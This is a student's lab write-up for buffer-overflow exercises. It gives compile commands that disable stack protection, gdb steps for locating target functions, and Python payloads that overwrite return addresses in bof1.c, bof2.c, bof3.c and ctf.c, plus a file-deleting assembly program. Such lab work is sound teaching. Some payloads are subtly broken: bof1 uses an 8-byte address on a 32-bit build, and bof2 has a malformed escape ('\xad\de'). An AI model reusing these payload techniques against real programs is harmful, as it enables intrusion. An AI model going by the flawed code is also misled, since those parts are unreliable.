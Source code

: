 # Lab Instructions: Buffer Overflow Attacks

## Lab#1: Buffer Overflow Attack on bof1.c, bof2.c, bof3.c

### bof1.c

1. Let's compile the program:
   ```
   gcc -m32 -fno-stack-protector -z execstack -o bof1 bof1.c
   ```

2. Now, let's find where `secretFunc()` is hiding:
   ```
   gdb ./bof1
   (gdb) disassemble secretFunc
   (gdb) print &secretFunc
   ```
   The address we're looking for is `0x00000000000011a5`.

3. Time to create our sneaky input:
   ```
   python -c 'import sys; sys.stdout.buffer.write(b"A" * 200 + b"\xa5\x11\x00\x00\x00\x00\x00\x00")' > exploit_input
   ```

4. Let's run it and see what happens:
   ```
   ./bof1 < exploit_input
   ```
   If you see "Congratulations!", you did it!

### bof2.c

1. First, let's compile:
   ```
   gcc -o bof2 bof2.c -fno-stack-protector -z execstack -g
   ```

2. Run the program:
   ```
   ./bof2
   ```

3. Take a look at the buffer size.

4. Now, let's make our exploit:
   ```
   python -c 'print("A" * 40 + "\xef\xbe\xad\de")' > exploit_input
   ```

5. Time to try it out:
   ```
   ./bof2 < exploit_input
   ```
   If you see "Yeah! You win!", you nailed it!

### bof3.c

1. Let's compile:
   ```
   gcc -o bof3 bof3.c -fno-stack-protector -z execstack -g
   ```

2. Open it up in gdb:
   ```
   gdb ./bof3
   ```

3. Find the `shell` function:
   ```
   (gdb) disassemble shell
   (gdb) print &shell
   ```

4. Create our exploit:
   ```
   python -c 'import sys; sys.stdout.buffer.write(b"A" * 128 + b"\x95\x11\x00\x00")'
   ```

5. Run it and see what happens!

## Lab#2

### Deleting a file with file_del.asm

1. Let's put it together:
   ```
   nasm -f elf32 file_del.asm -o file_del.o
   ```

2. Link it up:
   ```
   ld -m elf_i386 file_del.o -o file_del
   ```

3. Run it:
   ```
   ./file_del
   ```
   If the dummyfile is gone, you did it right!

### Attack on ctf.c

1. Compile the program:
   ```
   gcc -g -fno-stack-protector -o ctf ctf.c
   ```

2. Let's check it out in gdb:
   ```
   gdb ./ctf
   (gdb) disassemble myfunc
   (gdb) print &myfunc
   ```

3. Now, let's make our exploit:
   ```python
   p = 0x04081211  # address p
   q = 0x44644262  # address q
   myfunc_addr = 0x11d5 
   
   payload = b"A" * 100  # Fill the buffer
   payload += myfunc_addr.to_bytes(4, 'little')  # Overwrite return address
   payload += p.to_bytes(4, 'little')  # Parameter p
   payload += q.to_bytes(4, 'little')  # Parameter q
   
   with open("exploit_input", "wb") as f:
       f.write(payload)
   ```

4. Time to run it:
   ```
   ./ctf < exploit_input
   ```
   If you see "myfunc is reached, You got the flag", you've done it!

Due to the limitations of my current device (as my previous one is broken), I was unable to take screenshots of the lab instructions or provide the source code. However, the instructions remain available for completing the labs again. I will ensure better performance next time.

Original Lab Source Code: https://github.com/quang-ute/Security-labs/tree/main/Software/buffer-overflow

Nguyen Nhat Quang, 23/09/2024.

